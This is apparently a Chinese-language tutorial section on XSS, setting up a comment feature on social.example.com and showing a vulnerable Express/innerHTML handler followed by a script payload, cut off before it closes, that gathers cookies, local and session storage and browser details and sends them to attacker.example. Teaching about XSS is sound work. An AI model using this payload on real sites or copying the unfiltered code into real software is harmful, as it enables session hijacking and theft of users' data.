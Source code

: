## 3. 一个 **窃取用户信息**XSS 攻击示例

### 3.1. 攻击场景设置

假设有一个社交网站 `social.example.com`，它有一个**评论功能**。用户可以发表评论，评论内容会被显示在页面上。

### 3.2. 漏洞代码示例

假设网站的评论展示代码如下：包括前后端代码处理逻辑

```javascript
// 后端代码 (Node.js + Express)
app.post('/comment', (req, res) => {
    const comment = req.body.comment;
    // 直接存储用户输入，没有进行任何过滤
    db.saveComment(comment);
});

// 前端展示代码
function displayComment(comment) {
    // 直接插入 HTML，存在 XSS 漏洞
    document.getElementById('comments').innerHTML += comment;
}
```

### 3.3. 攻击代码示例

攻击者可以**提交以下评论内容**：

```html hl:5,31,39
<script>
    // 创建一个用于收集信息的函数
    function stealInfo() {
        // 收集用户 Cookie
        const cookies = document.cookie;
        
        // 收集用户的本地存储数据
        const localStorage = JSON.stringify(window.localStorage);
        
        // 收集用户的会话存储数据
        const sessionStorage = JSON.stringify(window.sessionStorage);
        
        // 收集用户的基本信息
        const userInfo = {
            url: window.location.href,
            userAgent: navigator.userAgent,
            screenRes: `${window.screen.width}x${window.screen.height}`,
            language: navigator.language,
            platform: navigator.platform
        };

        // 构造要发送的数据
        const stolenData = {
            cookies,
            localStorage,
            sessionStorage,
            userInfo,
            timestamp: new Date().toISOString()
        };

        // 创建图片请求来发送数据（避免跨域限制）
        const img = new Image();
        img.src = `https://attacker.example/collect?data=${encodeURIComponent(JSON.stringify(stolenData))}`;
    }
```